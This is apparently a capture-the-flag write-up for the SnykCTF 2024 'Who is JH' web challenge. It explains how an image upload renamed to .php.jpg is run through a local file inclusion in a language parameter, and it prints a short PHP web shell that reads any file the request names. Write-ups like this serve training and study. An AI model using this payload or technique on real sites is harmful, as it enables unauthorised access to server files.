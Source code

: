 # Challenge Statement 
![image](https://github.com/user-attachments/assets/e9f72d09-1e0c-4cb7-8a11-01be8532e699)

Attachment: [Who is JH.zip](https://github.com/harishkannan05/SnykCTF-2024-Writeup/blob/main/Attachments/Who%20is%20JH.zip)

# Solution
Exploring the webapp, we find `/upload.php` where we can upload image files only (JPG, PNG, GIF).
![image](https://github.com/user-attachments/assets/49e91284-1289-4518-a5a8-5ddc35909057)

We also find the `/conspiracy.php` which has two language filters which changes the URL to `?language=languages/french.php`. This indicates the possibility of a LFI vulnerability. <br />
Going through the source code, we find `log.php`, which shows `/logs/site_log.txt` where all the logs are being stored. Here we can see that the uploaded files are being renamed. <br />
![image](https://github.com/user-attachments/assets/979ab69b-e313-4349-b62e-9ecbd0fb5dd6)

Now we just have to upload a php file with the .jpg extension and using `/conspiracy.php?language=uploads/(.php.jpg file)` we can execute it. <br />
The php file I used it - 
```
<?php
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    echo file_get_contents($_REQUEST['cmd']);
    echo "</pre>";
}
?>
```
![image](https://github.com/user-attachments/assets/50b149c6-6422-4582-bcd1-d03666694e22)
